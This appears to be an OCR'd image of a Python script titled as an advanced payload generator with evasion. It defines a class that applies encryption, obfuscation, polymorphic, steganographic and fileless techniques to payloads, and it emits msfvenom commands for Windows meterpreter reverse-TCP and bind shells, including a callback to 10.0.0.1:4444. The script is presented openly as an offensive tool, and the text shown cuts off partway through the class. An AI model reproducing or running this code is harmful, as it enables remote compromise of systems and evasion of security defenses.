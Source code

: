 ### Advanced Payload Development and Evasion

```python
#!/usr/bin/env python3
# metasploit-payload-generator.py - Advanced payload generation with evasion

import os
import json
import base64
import random
import string
from cryptography.fernet import Fernet
from cryptography.hazmat.primitives import hashes
from cryptography.hazmat.primitives.kdf.pbkdf2 import PBKDF2HMAC

class AdvancedPayloadGenerator:
    """Advanced payload generation with multiple evasion techniques"""

    def __init__(self):
        self.evasion_techniques = {
            'encryption': self.encrypt_payload,
            'obfuscation': self.obfuscate_payload,
            'polymorphic': self.generate_polymorphic_payload,
            'steganography': self.embed_steganographic_payload,
            'fileless': self.generate_fileless_payload
        }

    def generate_advanced_payload(self, payload_type, target_os, evasion_methods=None):
        """Generate advanced payload with multiple evasion techniques"""

        # Base payload generation
        base_payload = self.generate_base_payload(payload_type, target_os)

        # Apply evasion techniques
        if evasion_methods:
            for method in evasion_methods:
                if method in self.evasion_techniques:
                    base_payload = self.evasion_techniques[method](base_payload)

        return {
            'payload': base_payload,
            'deployment_instructions': self.generate_deployment_guide(payload_type, target_os),
            'cleanup_script': self.generate_cleanup_script(payload_type, target_os),
            'iocs': self.generate_iocs(base_payload)
        }

    def generate_base_payload(self, payload_type, target_os):
        """Generate base payload using msfvenom"""
        if target_os == 'windows':
            if payload_type == 'reverse_shell':
                return {
                    'command': 'msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe',
                    'format': 'executable',
                    'architecture': 'x64'
                }
            elif payload_type == 'bind_shell':
                return {
                    'command': 'msfvenom -p windows/x64/meterpreter/bind_tcp RHOST=target_ip LPORT=4444 -f exe',
                    'format': 'executable',
                    'architecture': 'x64'
                }
```